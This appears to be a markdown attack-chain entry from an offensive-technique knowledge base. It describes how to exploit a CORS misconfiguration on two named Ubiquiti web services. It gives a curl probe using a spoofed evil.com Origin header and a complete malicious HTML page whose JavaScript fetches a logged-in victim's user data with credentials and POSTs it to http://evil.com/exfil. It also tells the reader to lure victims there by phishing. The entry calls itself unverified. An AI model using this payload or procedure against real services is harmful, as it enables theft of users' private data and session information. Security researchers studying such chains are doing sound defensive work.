

---
tags:
  - cors
  - misconfiguration
  - information-disclosure
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-CORS-Misconfiguration]]'
  - '[[procedures/Exploit-CORS-for-Information-Theft]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:25:17.657Z'
description: >-
  Multi-stage attack exploiting CORS policy misconfiguration on
  https://client.amplifi.com and https://protect.ubnt.com to enable cross-origin
  requests from unauthorized domains, allowing theft of private user information
  via a malicious HTML page.
skill_level: intermediate
impact_level: high
id: 3334bcdd-b835-471d-a01b-ba0f78bc75e2
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# CORS Misconfiguration Exploitation Leading to Private Information Disclosure on Ubiquiti Services

Multi-stage attack chain demonstrating exploitation of a CORS policy misconfiguration on Ubiquiti's web services, allowing unauthorized cross-origin requests and potential theft of private user data from logged-in sessions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for header inspection
- curl for automated header checks

### Target Environment

- Web platform
- Publicly accessible HTTPS endpoints: https://client.amplifi.com and https://protect.ubnt.com
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- No credentials needed for discovery
- Attacker requires ability to host a malicious HTML page
- Victim must be a legitimate logged-in user visiting the attacker's page

## Detailed Attack Procedures

### Step 1: Identify CORS Misconfiguration
procedure: [[procedures/Identify-CORS-Misconfiguration]]

**Objective**: Analyze response headers to detect overly permissive CORS policies allowing requests from unauthorized origins outside *.ubnt.com and *.ui.com.

**Instructions**: Use [[commands/curl-check-cors-headers]] to inspect the Access-Control-Allow-Origin header by simulating a cross-origin request:

```bash
curl -H "Origin: http://evil.com" -I https://client.amplifi.com | grep Access-Control-Allow-Origin
```

Repeat for https://protect.ubnt.com. Look for responses that do not restrict origins to *.ubnt.com or *.ui.com, such as wildcard (*) or arbitrary domains.

**Expected Output**: Headers showing permissive CORS, e.g., Access-Control-Allow-Origin: * or Access-Control-Allow-Origin: http://evil.com.

**Success Indicators**:
- Permissive origin policy confirmed
- No strict domain restrictions observed

### Step 2: Exploit CORS for Information Theft
procedure: [[procedures/Exploit-CORS-for-Information-Theft]]

**Objective**: Leverage the misconfiguration to perform unauthorized cross-origin requests from a malicious page, stealing private user data from a logged-in victim's session.

**Instructions**: Host a malicious HTML page on an attacker-controlled domain (e.g., evil.com) with JavaScript that makes a cross-origin fetch to the vulnerable endpoint. For example, create an HTML file with:

```html
<!DOCTYPE html>
<html>
<body>
<script>
fetch('https://client.amplifi.com/api/user-info', {credentials: 'include'})
  .then(response => response.json())
  .then(data => {
    // Exfiltrate data to attacker server
    fetch('http://evil.com/exfil', {method: 'POST', body: JSON.stringify(data)});
  });
</script>
</body>
</html>
```

Lure the victim (logged into the Ubiquiti service) to visit this page via phishing or social engineering. The browser will allow the request due to the misconfigured CORS, sending cookies and enabling data theft.

**Expected Output**: Private user information (e.g., session data, profile details) exfiltrated to the attacker's server.

**Success Indicators**:
- Cross-origin request succeeds without browser blocking
- Victim's private data retrieved and disclosed

## Attack Chain Summary

### Key Achievements

1. Detected CORS policy allowing unauthorized origins
2. Demonstrated cross-origin data theft via malicious page
3. Enabled potential account compromise or unwanted actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2024-10-01T00:00:00Z*
